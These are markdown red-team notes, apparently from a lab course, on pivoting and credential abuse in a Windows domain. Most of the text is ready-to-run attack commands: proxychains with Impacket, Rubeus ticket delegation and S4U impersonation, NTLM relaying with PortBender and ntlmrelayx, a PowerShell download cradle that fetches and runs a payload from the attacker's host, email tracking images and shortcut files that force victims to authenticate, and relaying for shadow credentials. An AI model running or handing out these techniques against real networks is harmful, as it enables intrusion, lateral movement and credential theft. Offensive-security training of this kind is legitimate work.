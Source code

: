 # Pivoting Notes

## SOCKS

start a SOCKS4a proxy, second is SOCKS5
```
socks 1080
socks 1080 socks5 disableNoAuth myUser myPassword enableLogging
```

## Linux Tools

## proxychains

```
sudo vim /etc/proxychains.conf
  socks4 127.0.0.1 9050
  socks5 127.0.0.1 1080 myUser myPassword
proxychains nmap -n -Pn -sT -p445,3389,4444,5985 10.10.122.10
proxychains wmiexec.py DEV/jking@10.10.122.30
```

## Windows Tools
[Proxifier](https://www.proxifier.com/)

## pivoting with kerberos

```
proxychains getTGT.py -dc-ip 10.10.122.10 -aesKey 4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 dev.cyberbotic.io/jking
export KRB5CCNAME=jking.ccache
proxychains psexec.py -dc-ip 10.10.122.10 -target-ip 10.10.122.30 -no-pass -k dev.cyberbotic.io/jking@web.dev.cyberbotic.io
```

using a TGT delegation trick to get a usable TGT for bfarmer from a non-elevated session
1. delegate TGT to get a TGT for a non-elevated session
2. base64 decode the ticket and write it as a <user>.kirbi
3. then convert with ticketConverter.py
4. now we can interact with this TGT

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe tgtdeleg /nowrap
echo -en 'doIFzj[...snip...]MuSU8=' | base64 -d > bfarmer.kirbi
ticketConverter.py bfarmer.kirbi bfarmer.ccache
proxychains mssqlclient.py -dc-ip 10.10.122.10 -no-pass -k dev.cyberbotic.io/bfarmer@sql-2.dev.cyberbotic.io
```

Can do this with windows attacker machines as well
1. first step is to add the *.<domain> to your proxifier rules
2. launch an instance of cmd.exe or powershell.exe
3. If we want to access the SQL-2 service through HeidiSQL then we need a service ticket for the MSSQLSvc service.  Let's use the TGT of bfarmer to do that (yes, requesting tickets through the proxy works as well).

```
runas /netonly /user:dev.cyberbotic.io\bfarmer powershell.exe
klist
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /ticket:doIFzj[...snip...]MuSU8= /service:MSSQLSvc/sql-2.dev.cyberbotic.io:1433 /dc:dc-2.dev.cyberbotic.io /ptt
C:\Tools\HeidiSQL\heidisql.exe
```

## Browsers

Using things like FoxyProxy

## Reverse Port Forwards

allows a machine to redirect inbound traffic on a specific port to another IP and port

```
rportfwd <inbound port> <IP to send to> <port to send to>
```

In some cases you might need to make rules to allow this traffic in, easy to do that like so
```
powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
```

can delete with
```
powershell Remove-NetFirewallRule -DisplayName "8080-In"
```

## NTLM Relaying

being a mitm of the ntlm authentication and passing the request to the target 
Tools:
[PortBender](https://github.com/praetorian-inc/PortBender)

Steps
1. will need a SYSTEM beacon on a machine you are doing the capture of SMB traffic on
2. allow those ports inbound on the firewall
3. start two reverse port forwards - one for SMB capture and another for a powershell download cradle
4. then setup a SOCKS proxy that ntlmrelayx can use to send relay responses back to the network
5. then run ntlmrelayx.py
6. upload the PortBender driver in the default windows driver location
7. run portbender to redirect traffic from 445 to port 8445
8. coerce a user to auth and you will be able to capture that traffic
9. link the new beacon

```
on beacon:
powershell New-NetFirewallRule -DisplayName "8445-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8445
powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
rportfwd 8445 localhost 445
rportfwd 8080 localhost 80
socks 1080
on attacker machine:
sudo proxychains ntlmrelayx.py -t smb://<target IP> -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -enc <download cradle pointing at the /b SMB payload>'
cd C:\Windows\system32\drivers
upload C:\Tools\PortBender\WinDivert64.sys
  **Then go to Cobalt Strike > Script Manager and load PortBender.cna from C:\Tools\PortBender - this adds a new PortBender command to the console.**
help PortBender
PortBender redirect 445 8445
**coerce victim and wait**
link dc-2.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
```

Download cradle example before base64
```
iex (new-object net.webclient).downloadstring("http://<IP>:<port>/<payload uri>")
```

# Forcing NTLM Auth

## 1x1 Images in Emails
having this in an email will trigger an NTLM auth attempt when opened in email clients like Outlook
```
<img src="\\<relayer IP>\test.ico" height="1" width="1" />
```

## Windows Shortcuts

Putting a windows shortcut on something like a public share for others to click
```
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\dc-2\software\test.lnk")
$shortcut.IconLocation = "\\10.10.123.102\test.ico"
$shortcut.Save()
```

Additional Tools: [SpoolSample](https://github.com/leechristensen/SpoolSample), [SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers) [PetitPotam](https://github.com/topotam/PetitPotam) 


## Relaying WebDAV
Tools: [GetWebDAVStatus](https://github.com/G0ldenGunSec/GetWebDAVStatus)

steps:
1. identify webDAV on remote client
2. setup relaying
3. setup firewall rules
4. coerce the service to auth to a malicious WebDAV server we control with relaying on it
5. then perform S4U2Proxt to req service tickets 

check for WebDAV
The webclient exposes a named pipe called DAV RPC SERVICE, using the GetWebDAVStatus Tool
```
sc qc WebClient
inline-execute C:\Tools\GetWebDAVStatus\GetWebDAVStatus_BOF\GetWebDAVStatus_x64.o wkstn-1,wkstn-2
```

setup relaying on attacker
```
sudo proxychains ntlmrelayx.py -t ldaps://10.10.122.10 --delegate-access -smb2support --http-port 8888
```
cont.., after the sharpsystemtriggers the a new machine account is created in the output of the relay and we use that to impersonate another user
```
powershell New-NetFirewallRule -DisplayName "8888-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8888
execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe wkstn-1 wkstn-2@8888/pwned
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /domain:dev.cyberbotic.io /user:<machine account> /password:'<password created by relay>'
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:PVWUMPYT$ /impersonateuser:nlamb /msdsspn:cifs/wkstn-1.dev.cyberbotic.io /aes256:<aes from above> /nowrap
```


## Shadow credentials

This option will automatically dump a cert file for you
1. relay with --shadow-credentials
2. convert to ccache format for impacket or base64 for rubeus
3. req TGT which can then be used for S4U2Self

```
sudo proxychains ntlmrelayx.py -t ldaps://10.10.122.10 --shadow-credentials -smb2support --http-port 8888
cat <cert.pfx> | base64 -w 0
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:WKSTN-1$ /enctype:aes256 /certificate:MIII3Q[...snip...]YFLqI= /password:wBaP2YhsR7RgY0MZ6jwk /nowrap
```
